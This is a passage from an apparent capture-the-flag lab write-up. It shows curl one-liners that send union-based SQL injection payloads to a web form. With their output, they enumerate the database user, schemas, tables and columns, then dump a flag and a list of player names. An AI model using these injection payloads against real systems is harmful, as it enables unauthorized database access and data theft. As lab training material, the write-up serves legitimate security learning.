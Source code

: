 - We could make it a one-liner
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select user() -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
uhc@localhost  
```

- Let's continue
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
mysql,information_schema,performance_schema,sys,november
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november' -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 
flag,players
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november'-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 
flag:one,players:player  
```

- Let's dump the data
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(one) from flag-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
UHC{F1rst_5tep_2_Qualify}  
```
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(player) from players-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
ippsec,celesian,big0us,luska,tinyboy 
```

- If we enter the flag to `challenge.php`, we are redirected to `firewall.php`
  - We are granted access to `ssh`, which can be confirmed via `nmap`

![](./images/7.png)
